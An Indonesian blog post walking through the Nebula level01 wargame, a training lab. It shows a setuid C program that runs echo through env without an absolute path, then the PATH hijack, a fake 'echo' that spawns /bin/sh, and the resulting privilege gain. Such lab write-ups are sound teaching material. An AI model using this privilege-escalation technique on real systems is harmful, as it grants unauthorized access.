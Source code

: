 +++
author = "kernel-panic"
categories = ["Security", "Nebula"]
date = "2018-01-10T03:49:14+00:00"
description = "Security Wargames"
featured = "g56704342622.jpg"
featuredalt = "Nebula Level01"
featuredpath = "https://beeimg.com/images"
linktitle = ""
title = "Exploit Exercises - Nebula Level01"
type = "post"

+++
Tingkat berikutnya, {{< url-link "level01" "https://exploit-exercises.com/nebula/level01/" "target">}}, memberikan kode bahasa C untuk dievaluasi pengguna. Kode tersebut berisi kerentanan yang memungkinkan pengeksekusian program _arbitrary_.

Dalam postingan ini saya akan menjelaskan langkah-langkah yang saya ambil untuk menyelesaikan tantangan tersebut.

Saya memulai dengan melihat _source code_ untuk menemukan kerentanannya:

    #include <stdlib.h>
    #include <unistd.h>
    #include <string.h>
    #include <sys/types.h>
    #include <stdio.h>
    
    int main(int argc, char **argv, char **envp)
    {
      gid_t gid;
      uid_t uid;
      gid = getegid();
      uid = geteuid();
    
      setresgid(gid, gid, gid);
      setresuid(uid, uid, uid);
    
      system("/usr/bin/env echo and now what?");
    }

Hampir seketika, saya melihat bahwa "echo" dipanggil tanpa path absolut. Ini adalah kerentanan keamanan utama karena script akan bergantung pada variabel lingkungan shell saat ini (yang dapat dirusak).

Mari kita modifikasi path untuk memasukkan /tmp/:

    level01@nebula:/home/flag01$ PATH=/tmp:$PATH
    level01@nebula:/home/flag01$ export PATH
    level01@nebula:/home/flag01$ echo $PATH
    /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games

Sekarang /tmp ada di path saat ini, kita bisa membuat "echo" perintah kita sendiri. Saya telah memasukkan kode C di bawah ini untuk (dalam bahasa kerennya) _spawn a shell_.

    #include <unistd.h>
    
    int main() {
            char *args[2];
            args[0] = "/bin/sh";
            args[1] = NULL;
            execve(args[0], args, NULL);
    }

Write-up bagus tentang kode tersebut dapat ditemukan di {{< url-link "http://www.kernel-panic.it/security/shellcode/shellcode5.html" "http://www.kernel-panic.it/security/shellcode/shellcode5.html" "target">}} jika kamu penasaran dengan pembuatan dan eksekusinya.

Setelah membuat program "echo" baru, saya perlu mengkompilasi kode tersebut.

    level01@nebula:/tmp$ gcc echo.c -o echo
    level01@nebula:/tmp$ ls
    echo echo.c

Sekarang saya bisa memanggil script asli, yang sekarang akan menjalankan program "echo" yang sudah dibuat tadi:

    level01@nebula:/home/flag01$ id
    uid=1002(level01) gid=1002(level01) groups=1002(level01)
    level01@nebula:/home/flag01$ ./flag01
    sh-4.2$ id
    uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
    sh-4.2$ getflag
    You have successfully executed getflag on a target account

Dan yaps, sukses!

<div class="videoyoutube"><div class="video-responsive"><iframe allowfullscreen="1" class="embedded-video-large" src="https://www.youtube.com/embed/gkqc1By1oaA?rel=0"></iframe></div></div>